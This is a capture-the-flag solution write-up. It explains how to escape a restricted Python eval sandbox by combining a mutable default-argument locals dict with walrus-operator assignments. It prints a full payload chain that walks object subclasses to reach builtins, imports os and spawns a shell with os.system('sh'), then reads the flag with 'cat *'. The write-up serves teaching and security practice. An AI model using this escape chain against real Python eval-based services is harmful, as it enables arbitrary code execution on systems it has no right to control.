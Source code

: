 # Squeezing_Tightly_On_Arm &mdash; Solution

## Source code

We got the source code, and there are some interesting parts of the code:

* `del sys`
* `del FLAG`
* `loc={}`
* `eval(command, {'__builtins__': {}}, loc)`

## Forbbiden input

Before we pass the command to the `eval`, we must pass some checks:

* Max length of the line is 120
* We cannot use  `'`
* We can use `.()/+` only once.

## Safe eval

```
def safe_eval(command, loc={}):

    if not check(command):
        return

    return eval(command, {'__builtins__': {}}, loc)
```

Here, we see the `safe_eval` function. Globas and locals are set to empty `dict`.
But for locals, this is not true when we run `safe_eval` multiple times.

Because we use a default parameter (empty `dict`), `dict` is evaluated only once.
Python's default arguments are evaluated only once when the function is defined,
not each time the function is called: https://www.codecademy.com/learn/learn-intermediate-python-3/modules/int-python-function-arguments/cheatsheet.

This is good for us, because now we can run multiple commands and have some shared state.
But for creating some state we need assign operator, and we can not have `=` in `eval`.
There is solution for that, because we can use **the walrus operator**, `:=`.
We can have some expressions like this: `[a:="".__class__]`.


## Escape

Now we must find some way to escape from Python, and somehow we need to read the `FLAG`.
The main idea is to print our source code. Let's import `os` module and run `system` function:


```
[a:="".__class__]
[b:=a.__base__]
[c:=b.__subclasses__()]
[d:=[x.__init__ for x in c]]
[e:=[x for x in d if "wrapper" not in f"{x}"]]
[f:=[x for x in e if "builtins" in x.__globals__ ]]
[g:=f[0].__globals__["builtins"]]
[h:=g.__import__("os")]
h.system("sh")
```
We got the flag with `cat *`: TBTL{3SC4P1NG_FR0M_PYTH0N_15_N0T_4N_345Y_T45K}


